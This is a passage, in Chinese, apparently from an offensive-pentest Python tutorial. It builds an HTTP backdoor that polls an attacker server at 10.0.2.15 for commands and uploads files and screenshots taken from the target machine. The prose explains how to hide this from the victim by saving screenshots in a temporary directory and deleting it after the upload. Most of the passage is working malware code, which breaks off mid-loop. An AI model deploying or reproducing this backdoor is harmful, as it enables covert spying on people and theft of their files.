 现在让我们尝试测试脚本。确保 HTTP 数据泄露服务器脚本在攻击者端运行。一旦我们看到`Shell>`，在攻击者端运行`screencap`，然后进入`桌面`，将文件扩展名更改为`.jpeg`，这样我们就能查看截图。如果我们去到目标机器，你会看到我们的`screencap`图像保存在与脚本相同的当前工作目录中。

现在，问题在于，这非常明显，表明有人在我们的 PC 上进行恶意活动。即使在传输完成后我们删除了图像，目标仍有可能发现我们。为了克服这一点，我们将使用操作系统的`temp`目录来创建一个临时目录，并将图像保存在其中。一旦传输完成，我们将删除整个目录。

Python 有一个内置库，使用操作系统的临时目录。让我们快速看一下。我们将进入命令提示符并打开 Python 交互模式，运行`import tempfile`。这个`tempfile`将处理创建`temporary`目录的任务。但在创建之前，先打开 Windows 的`temp`目录。运行`print tempfile.mkdtemp`，这将为我们创建一个临时目录并打印出所有目录名称。现在，为了删除这个临时目录，我们将使用另一个名为`shutil`的库。我们将导入它，并创建一个新的临时目录。

请注意，一旦我们执行此操作，将会在`temp`目录下创建一个新文件夹。现在，我们将通过运行`shutil.rmtree(x)`来删除它，因为变量`x`包含该`temp`文件夹的名称：

![](img/00038.jpeg)

为了在脚本中反映这些更改，我们将返回并编辑目标脚本：

```
# Python For Offensive PenTest

# Screen Capturing

import requests 
import subprocess 
import os
import time

from PIL import ImageGrab # Used to Grab a screenshot
import tempfile # Used to Create a temp directory
import shutil # Used to Remove the temp directory

while True: 

    req = requests.get('http://10.0.2.15')
    command = req.text

    if 'terminate' in command:
        break

    elif 'grab' in command:
        grab,path=command.split('*')
        if os.path.exists(path):
            url = 'http://10.0.2.15/store'
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://10.0.2.15', data='[-] Not able to find the file !' )

    elif 'screencap' in command: #If we got a screencap keyword, then ...

        dirpath = tempfile.mkdtemp() #Create a temp dir to store our screenshot file

        ImageGrab.grab().save(dirpath + "\img.jpg", "JPEG") #Save the screencap in the temp dir

        url = 'http://10.0.2.15/store' 
        files = {'file': open(dirpath + "\img.jpg", 'rb')}
        r = requests.post(url, files=files) #Transfer the file over our HTTP

```